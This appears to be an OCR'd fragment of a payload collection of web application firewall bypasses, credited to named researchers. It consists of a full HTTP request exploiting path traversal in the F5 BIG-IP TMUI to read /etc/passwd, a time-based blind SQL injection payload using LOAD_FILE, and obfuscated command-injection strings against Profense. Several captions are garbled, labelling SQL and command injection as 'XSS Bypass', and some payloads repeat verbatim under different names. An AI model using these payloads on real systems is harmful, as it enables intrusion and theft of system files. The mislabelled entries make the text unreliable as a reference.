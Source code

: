 ```
POST /tmui/Control/form HTTP/1.1Host: site.comUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:32.0) Gecko/20100101 Firefox/32.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateCookie: JSESSIONID=6C6BADBEFB32C36CDE7A59C416659494; f5advanceddisplay=""; BIGIPAuthCookie=89C1E3BDA86BDF9E0D64AB60417979CA1D9BE1D4; BIGIPAuthUsernameCookie=admin; F5_CURRENT_PARTITION=Common; f5formpage="/tmui/system/archive/properties.jsp?&; f5_refreshpage=/tmui/Control/jspmap/tmui/system/archive/properties.jsp%3Fname%3D../../../../../etc/passwdContent-Type: application/x-www-form-urlencoded_form_holder_opener_=&handler=%2Ftmui%2Fsystem%2Farchive%2Fproperties&handler_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties&showObjList=&showObjList_before=&hideObjList=&hideObjList_before=&enableObjList=&enableObjList_before=&disableObjList=&disableObjList_before=&_bufvalue=icHjvahr354NZKtgQXl5yh2b&_bufvalue_before=icHjvahr354NZKtgQXl5yh2b&_bufvalue_validation=NO_VALIDATION&com.f5.util.LinkedAdd.action_override=%2Ftmui%2Fsystem%2Farchive%2Fproperties&com.f5.util.LinkedAdd.action_override_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties&linked_add_id=&linked_add_id_before=&name=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&name_before=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&form_page=%2Ftmui%2Fsystem%2Farchive%2Fproperties.jsp%3F&form_page_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties.jsp%3F&download_before=Download%3A+..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&restore_before=Restore&delete=Delete&delete_before=Delete
```

XSS Bypass by @Frans Rosén

```
state=%2527+and+(case+when+SUBSTRING(LOAD_FILE(%2527/etc/passwd%2527),1,1)=char(114)+then+BENCHMARK(40000000,ENCODE(%2527hello%2527,%2527batman%2527))+else+0+end)=0+--+
```

XSS Bypass by @Ishaq Mohammed

```
state=%2527+and+(case+when+SUBSTRING(LOAD_FILE(%2527/etc/passwd%2527),1,1)=char(114)+then+BENCHMARK(40000000,ENCODE(%2527hello%2527,%2527batman%2527))+else+0+end)=0+--+
```

### **Profense**

GET Type CSRF Attack by @Michael Brooks (>= v.2.6.2)

Turn off Proface Machine

```
;+$u+cat+/etc$u/passwd$u
```

Add a proxy

```
;+$u+cat+/etc$u/passwd$u
```

XSS Bypass by @Michael Brooks (>= v.2.6.2)

```
;+$u+cat+/etc$u/passwd+\#
```

XSS Bypass by @EnableSecurity (>= v2.4)

```
;+$u+cat+/etc$u/passwd+\#
```
